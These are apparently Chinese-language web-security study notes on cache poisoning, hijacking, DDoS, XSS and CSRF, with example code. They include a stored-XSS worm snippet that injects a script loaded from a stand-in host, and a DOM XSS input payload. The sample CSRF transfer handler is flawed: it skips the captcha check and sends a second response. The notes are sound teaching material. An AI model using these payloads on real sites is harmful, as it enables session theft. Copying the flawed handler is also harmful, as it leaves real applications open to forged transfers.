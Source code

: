 
### 1、恶意网站拦截 ###

* 浏览器周期性的从服务端获取一份最新的恶意网站黑名单，如果，用户上网时访问的网址存在于此黑名单中，浏览器会弹出一个警告页面。
* 解决办法：工信部投诉        

### 2、缓存投毒 ###

* 免费的WiFi，欢迎页，偷偷请求好多网站，访问A站时，加载了b站的通用脚本jq/bs(内含恶意脚本)，由于大部分网站有缓存静态文件（jq,bootstrap）的时间较长。离开免费WiFi后，再次请求A站时候，就会触发jq中含有的恶意代码。
* 解决办法：尽量不用；清除缓存。 

### 3、文件投毒 ###

* 下载非官方的插件（jq）;官方下载地址被攻击；不可信的第三方cdn资源。
* 解决办法：自己擦亮眼睛  

### 4、客户端投毒 ###  

* chrome 安装了恶意的插件
* 解决办法：密码防止装库，手机验证码  

### 5、网页劫持 ###

* 本机的hosts文件被篡改,映射被改了、190.208.173.191 preok.com
* 公网的dns被解析到另一个恶意网站。
 * 脚本被篡改，比如jq引用其它网站的包。
* 解决办法：升级https。

### 6、DDOS攻击（distribute denial of service） ### 

 * 黑客控制大量肉鸡（别人ip，不同IP）发送非正常请求，
 * 向主机服务器频繁发送非正常请求，
 * 解决办法：没有有效的方法。1、验证码,2、限制请求频率、3、增加服务宽带（增加并发量，双11）、4、负载均衡分布式服务(不同区域不同服务器)、5、买些高仿IP（太贵）  
 
### 7、xss+csrf 儒虫 ### 

* 儒虫 有人引爆它，让它触发，比如
    ```
    // 将一个请求接口脚本 存到服务器，
    // 比如：下边评论功能，将评论内容发到数据库，每次有人=看的时候就自动提交一次。越来越多。
    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });
    ```
    
### 8、HTTP劫持 ###  

* 客户端与服务器二者建立了通道，中间被劫持，也可能是运营商加个广告、
* 解决办法：https

### 9、自身安全漏洞问题 ###    
    
* 1、跨站脚本攻击（XSS）
    * 含义：cross site script,避免和css重复、所以叫 ‘XSS’,往网页里注入恶意的脚本代码，当用户访包含恶意脚本的代码时候，通过恶意脚本，黑客可以获取和控制用户信息。
    * 反射型（发给服务器返回）：引导用户点击链接，
     * 解决办法：httpOnly浏览器禁止页面的js访问带有HttpOnly属性的Cookie；谷歌浏览器做了大部分拦截；需要encodeURI和encodeURIComponent联合使用。
    * 存储型：恶意的脚本存储到服务器。
     * 解决办法：输入检测（过滤js脚本），输出检测（编码火转移）;需要encodeURI和encodeURIComponent联合使用;[html转义](http://www.w3school.com.cn/html/html_entities.asp);js转义（“e” 编码为“\145”），前端展示用函数（类库）转义下。
    * DOM-Based型XSS。不需要服务端参与，是由于DOM结构修改导致的，基于浏览器DOM解析的攻击。
    浏览器在DOM解析的时候直接使用恶意数据，常见的触发场景就是在修改innerHTML outerHTML document.write的时候。
       * 解决办法，过滤输入
       
    ```
        DOM-Based
        <body>
        <h1>输入链接地址，然后点击按钮</h1>
        <div id="content"></div>
        <input type="text" id="link">
        <button onclick="setup()">设置</button>
        <script src="https://cdn.bootcss.com/jquery/3.3.1/jquery.js"></script>
        <script>
            function setup() {
                // " onclick=alert(1) //
                let html = `<a href="${$('#link').val()}">点我</a>`;
                $('#content').html(html);
            }
        </script>
        </body>
    ```
    
    * payload XSS。窃取用户的Cookie，识别浏览器，钓鱼链接让用户访问假冒网站。
* 2、跨站请求伪造CSRF（Cross-site request forgery） 
    * 含义：跨站点请求伪造。  用户A登录银行网站，登录成功后会设置cookie，黑客诱导用户A登录到黑客的站点，然后会返回一个页面 ，用户访问这个页面时，这个页面会伪造一个转账请求到银行网站。
    * 解决办法1 验证码（影响用户体验） 类库（svgCaptcha），刷新的时候后端生成验证码发送给前端，前端保存到session（或者仅仅显示）中，请求的时候带过去（参数），相同服务端就返回，否则就拒绝。
    
    ```
    <div class="form-group">
        <label for="captcha" id="captcha"></label>
        <input id="captcha" class="form-control" placeholder="请输入验证码">
    </div>
    
    
     $.get('/api/captcha').then(data => {
        if (data.code == 0) {
            $('#captcha').html(data.captcha);
        } else {
            alert('用户未登录');
            location.href = '/login.html';
        }
    });
        var svgCaptcha = require('svg-captcha');
    app.get('/api/captcha', function (req, res) {
        let session = userSessions[req.cookies.sessionId];
        if (session) {
            var codeConfig = {
                size: 5,// 验证码长度
                ignoreChars: '0o1i', // 验证码字符中排除 0o1i
                noise: 2, // 干扰线条的数量
                height: 44
            }
            var captcha = svgCaptcha.create(codeConfig);
            session.captcha = captcha.text.toLowerCase(); //存session用于验证接口获取文字码
            res.send({ code: 0, captcha: captcha.data });
        } else {
            res.json({ code: 1, data: '没有该用户' });
        }
    });
    
    ```
    
    * 解决办法2、refer验证（不可靠）
    
     ```
      let referer = req.headers['referer'];
        if (/^https?:\/\/localhost:3000/.test(referer)) {
    
        } else {
            res.json({ code: 1, error: 'referer不正确' });
        }
     ```
     * 解决办法3 token验证（推荐）服务端生成token传给浏览器，交互的时候，判断是否相同。token有很多种生成方式，比如cookie或者sessionId,规则前后端双方约定好。 不容易被伪造，一次性的，
     
     ```
     function getClientToken() {
            let result = document.cookie.match(/token=([^;]+)/);
            return result ? result[1] : '';
        }
    function transfer(event) {
                event.preventDefault();
                let target = $('#target').val();
                let amount = $('#amount').val();
                let captcha = $('#captcha').val();
                $.post('/api/transfer', {
                    target,
                    amount,
                    captcha,
                    clientToken: getClientToken()
                }).then(data => {
                    if (data.code == 0) {
                        alert('转账成功');
                        location.reload();
                    } else {
                        alert('用户未登录');
                        location.href = '/login.html';
                    }
                });
    }
         app.post('/api/transfer', function (req, res) {
        // let referer = req.headers['referer'];
        //if (/^https?:\/\/localhost:3000/.test(referer)) {
        let { target, amount, clientToken, captcha } = req.body;
        amount = isNaN(amount) ? 0 : Number(amount);
        let { username, token } = userSessions[req.cookies.sessionId];
        if (username) {
            if (clientToken == token) {
                let user;
                for (let i = 0; i < users.length; i++) {
                    if (username == users[i].username) {
                        users[i].money -= amount;
                    } else if (target == users[i].username) {
                        users[i].money += amount;
                    }
                }
                res.json({ code: 0 });
            } else {
                res.json({ code: 1, error: '违法操作' });
            }
        } else {
            res.json({ code: 1, error: '用户没有登录' });
        }
        //} else {
        res.json({ code: 1, error: 'referer不正确' });
        //}
    })
     ```
 

